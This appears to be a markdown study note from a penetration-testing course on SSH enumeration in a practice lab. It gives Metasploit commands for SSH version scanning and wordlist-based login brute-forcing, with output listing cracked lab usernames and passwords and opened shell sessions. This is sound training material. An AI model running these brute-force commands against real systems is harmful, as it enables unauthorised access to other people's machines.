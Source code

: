 
#### [SSH](../assessment-methodologies/3-enumeration/ssh-enum.md)

> 🔬 [Metasploit - SSH Login](https://attackdefense.com/challengedetails?cid=1526)

```bash
ip -br -c a
setg RHOSTS 192.127.196.3
setg RHOST 192.127.196.3
workspace -a SSH_ENUM
```

> **`auxiliary/scanner/ssh/ssh_version`**

```bash
search type:auxiliary name:ssh
use auxiliary/scanner/ssh/ssh_version
options
run
```

```bash
[+] 192.127.196.3:22 - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
# SSH-2.0-OpenSSH_7.9p1 and Ubuntu 19.04
```

> **`auxiliary/scanner/ssh/ssh_login`**

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
# for password authentication
options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
run
```

```bash
[+] 192.127.196.3:22 - Success: 'sysadmin:hailey' ''
[*] Command shell session 1 opened (192.127.196.2:37093 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'rooty:pineapple' ''
[*] Command shell session 2 opened (192.127.196.2:44935 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'demo:butterfly1' ''
[*] Command shell session 3 opened (192.127.196.2:39681 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'auditor:xbox360' ''
[*] Command shell session 4 opened (192.127.196.2:42273 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'anon:741852963' ''
[*] Command shell session 5 opened (192.127.196.2:44263 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'administrator:password1' ''
[*] Command shell session 6 opened (192.127.196.2:39997 -> 192.127.196.3:22)
[+] 192.127.196.3:22 - Success: 'diag:secret' ''
```
